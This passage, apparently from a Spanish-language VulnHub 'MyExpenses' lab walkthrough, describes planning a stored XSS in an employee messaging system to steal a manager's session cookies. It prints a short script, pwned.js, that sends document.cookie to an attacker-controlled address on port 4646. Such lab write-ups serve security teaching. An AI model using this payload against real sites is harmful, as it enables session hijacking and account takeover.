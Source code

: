 Vemos que se ha enviado pero está pendiente de aprobación. En los detalles de nuestro perfil vemos que nuestro manager es `Manon Riviere` el cual tendrá el informde de gastos pendiente de autorizar

<img src="/assets/VH/MyExpenses/manager.png">

En la página principal de nuestro perfil vemos que hay un sistema de mensajes para empleados. Asumiendo que la web es vulnerable a XSS y que a éste sistema de mensajes acceden varios usuarios entre ellos nuestro manager trataremos de obtener sus cookies de sesión de la misma forma que hicimos anteriormente

<img src="/assets/VH/MyExpenses/mensaje.png">

```js
❯ cat pwned.js
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pwned.js
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ var request = new XMLHttpRequest();
   2   │ request.open('GET', 'http://192.168.1.148:4646/?hacked=' + document.cookie);
   3   │ request.send();
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
